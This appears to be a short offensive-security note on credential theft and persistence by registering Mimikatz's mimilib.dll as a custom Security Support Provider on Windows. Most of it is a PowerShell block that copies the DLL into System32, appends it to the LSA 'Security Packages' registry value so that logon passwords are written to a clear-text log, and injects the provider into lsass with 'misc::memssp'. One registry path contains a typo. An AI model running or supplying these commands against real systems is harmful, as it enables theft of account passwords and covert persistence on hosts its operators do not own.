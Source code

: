 #mimikatz #powershell 
[[Authentication#GSS-API]]
- Injecting our own SSP for programs to use.
- Mimikatz has it's own `mimilib.dll` SSP. This SSP logs local logons, service account and machine account password in clear text on the target server.
- `mimilib.dll` should be present in the system32 directory on the target system, and add mimilib to the `HKLM\SYSTEM\CurrentControlSet\Control\LSA\Security Packages`
```powershell
# move mimilib to system32
Move-Item mimilib.dll C:\Windows\System32

# Get Current value of "Security Packages"
$packages = Get-ItemProperty "HKML:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' | select -ExpandProperty 'Security Packages';

# append mimilib to packages variable
$packages += "mimilib"

# Reset the registry key
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages' -Value $packages
# Reboot
# After reboot all logons are logged to C:\Windows\System32\[kiwissp.log|mimilsa.log]

# Mimikatz can be used to load mimilib in lsass
misc::memssp
```
